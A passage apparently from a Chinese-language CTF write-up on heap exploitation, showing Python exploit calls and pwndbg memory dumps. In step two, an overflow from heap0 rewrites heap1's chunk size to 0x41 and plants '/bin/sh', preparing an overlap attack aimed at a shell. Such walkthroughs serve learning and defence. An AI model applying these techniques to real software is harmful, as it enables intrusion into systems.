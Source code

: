 ```python
create(0x18,'aaaa')
create(0x18,'bbbb')
```

```
pwndbg> x /10gx 0x06020A0
0x6020a0 <heaparray>:	0x0000000000603010	0x0000000000603050     //heap0_struct_ptr   heap1_struct_ptr
0x6020b0 <heaparray+16>:	0x0000000000000000	0x0000000000000000
0x6020c0 <heaparray+32>:	0x0000000000000000	0x0000000000000000
0x6020d0 <heaparray+48>:	0x0000000000000000	0x0000000000000000
0x6020e0 <heaparray+64>:	0x0000000000000000	0x0000000000000000
```

查看堆情况

```
pwndbg> x /30gx 0x0000000000603000
0x603000:	0x0000000000000000	0x0000000000000021       //heap0_struct(标注的是chunk的地址)
0x603010:	0x0000000000000018	0x0000000000603030
0x603020:	0x0000000000000000	0x0000000000000021       //heap0_content
0x603030:	0x0000000a61616161	0x0000000000000000      
0x603040:	0x0000000000000000	0x0000000000000021       //heap1_struct
0x603050:	0x0000000000000018	0x0000000000603070
0x603060:	0x0000000000000000	0x0000000000000021       //heap1_content
0x603070:	0x0000000a62626262	0x0000000000000000
0x603080:	0x0000000000000000	0x0000000000020f81       //top trunk
0x603090:	0x0000000000000000	0x0000000000000000
0x6030a0:	0x0000000000000000	0x0000000000000000
0x6030b0:	0x0000000000000000	0x0000000000000000
0x6030c0:	0x0000000000000000	0x0000000000000000
0x6030d0:	0x0000000000000000	0x0000000000000000
0x6030e0:	0x0000000000000000	0x0000000000000000
```

第二步：覆盖heap1_struct的size为0x41

```python
edit(0, "/bin/sh\x00" + "a" * 0x10 + "\x41")
```

```
pwndbg> x /30gx 0x0000000000603000
0x603000:	0x0000000000000000	0x0000000000000021       //heap0_struct
0x603010:	0x0000000000000018	0x0000000000603030
0x603020:	0x0000000000000000	0x0000000000000021       //heap0_content
0x603030:	0x0068732f6e69622f	0x6161616161616161
0x603040:	0x6161616161616161	0x0000000000000041       //heap1_struct,覆盖后的size
0x603050:	0x0000000000000018	0x0000000000603070
0x603060:	0x0000000000000000	0x0000000000000021       //heap1_content		
0x603070:	0x0000000a62626262	0x0000000000000000
0x603080:	0x0000000000000000	0x0000000000020f81
0x603090:	0x0000000000000000	0x0000000000000000
0x6030a0:	0x0000000000000000	0x0000000000000000
0x6030b0:	0x0000000000000000	0x0000000000000000
0x6030c0:	0x0000000000000000	0x0000000000000000
0x6030d0:	0x0000000000000000	0x0000000000000000
0x6030e0:	0x0000000000000000	0x0000000000000000
```
